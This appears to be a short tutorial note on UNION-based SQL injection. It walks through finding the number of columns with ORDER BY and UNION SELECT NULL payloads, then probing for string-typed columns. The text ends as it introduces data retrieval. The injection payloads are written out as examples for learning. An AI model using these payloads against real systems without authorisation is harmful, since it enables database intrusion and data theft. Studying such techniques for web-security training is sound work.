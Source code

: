 UNION SQLi **attack** consists of 3 stages:

1. Finding the number of columns
2. Checking if the columns are suitable
3. Attack and get some interesting data.

- Determining the number of columns required in an SQL injection UNION attack

There are exactly two ways to detect one:

The first one involves injecting a series of ORDER BY queries until an error occurs. For example:

```
' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3--
	# and so on until an error occurs
```

(The last value before the error would indicate the number of columns.)

The second one (most common and effective), would involve submitting a series of UNION SELECT payloads with a number of NULL values:

```
' UNION SELECT NULL--

' UNION SELECT NULL,NULL--

' UNION SELECT NULL,NULL,NULL--
	# until the error occurs
```

No error = number of NULL matches the number of columns.

- Finding columns with a useful data type in an SQL injection UNION attack

Generally, the interesting data that you want to retrieve will be in string form. Having already determined the number of required columns, (for example 4) you can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In case of 4 you would submit:

```
' UNION SELECT 'a',NULL,NULL,NULL--

' UNION SELECT NULL,'a',NULL,NULL--

' UNION SELECT NULL,NULL,'a',NULL--

' UNION SELECT NULL,NULL,NULL,'a'--
```

No error = data type is useful for us (string).

- Using an SQL injection UNION attack to retrieve interesting data

When you have determined the number of columns and found which columns can hold string data, you can finally start retrieving interesting data.
